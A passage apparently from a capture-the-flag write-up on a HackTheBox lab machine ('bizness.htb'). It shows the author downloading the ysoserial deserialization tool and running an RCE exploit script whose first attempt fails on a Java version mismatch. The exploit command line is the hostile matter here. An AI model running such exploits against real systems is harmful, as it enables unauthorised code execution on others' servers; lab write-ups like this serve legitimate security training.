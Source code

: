     Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240520%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240520T195538Z&X-Amz-Expires=300&X-Amz-Signature=1b5772c46ef678b30324d507e19daa96b50ee00e70c3b0b26085278bf93446ba&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream [following]
    --2024-05-20 15:55:42--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240520%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240520T195538Z&X-Amz-Expires=300&X-Amz-Signature=1b5772c46ef678b30324d507e19daa96b50ee00e70c3b0b26085278bf93446ba&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream
    Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
    Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 59525376 (57M) [application/octet-stream]
    Saving to: ‘ysoserial-all.jar’
    
    ysoserial-all.jar          100%[=====================================>]  56.77M  82.7MB/s    in 0.7s    
    
    2024-05-20 15:55:42 (82.7 MB/s) - ‘ysoserial-all.jar’ saved [59525376/59525376]
    

If I run this on my system, I get this failure:

    
    
    oxdf@hacky$ python exploit.py https://bizness.htb rce id
    Error while generating or serializing payload
    java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x6fa4fbe3) canno
    t access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because mo
    dule java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x6fa4fbe3 
            at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
            at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
            at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
                                                        
            Command didn't executed, please make sure you have java binary v11
            this exploit tested on this env
            openjdk version "11.0.17" 2022-10-18
            OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
            OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing) 
    

The exploit author is nice enough to say what is wrong - I’m running the wrong
version of Java.

I’ll grab a copy of Java 11
[here](https://www.oracle.com/java/technologies/javase/jdk11-archive-
downloads.html) and install it, and use `update-alternatives` to set it as my
active Java:
